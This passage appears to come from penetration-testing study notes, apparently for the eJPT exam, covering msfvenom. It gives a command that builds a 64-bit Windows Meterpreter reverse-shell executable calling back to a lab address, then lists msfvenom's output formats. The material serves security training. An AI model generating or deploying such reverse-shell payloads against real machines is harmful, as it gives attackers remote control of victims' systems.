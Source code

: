 **64bit payload:**

```bash
msfvenom -a x64 -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.31.128 LPORT=1234 -f exe > /home/kali/certs/ejpt/Windows_Payloads/payloadx64.exe
```

- List the output formats available

```bash
msfvenom --list formats
```

```bash
Framework Executable Formats [--format <value>]
===============================================
    Name
    ----
    asp
    aspx
    aspx-exe
    axis2
    dll
    ducky-script-psh
    elf
    elf-so
    exe
    exe-only
    exe-service
    exe-small
    hta-psh
    jar
    jsp
    loop-vbs
    macho
    msi
    msi-nouac
    osx-app
    psh
    psh-cmd
    psh-net
    psh-reflection
    python-reflection
    vba
    vba-exe
    vba-psh
    vbs
    war

Framework Transform Formats [--format <value>]
==============================================
    Name
    ----
    base32
    base64
    bash
    c
    csharp
    dw
    dword
    go
    golang
    hex
    java
    js_be
    js_le
```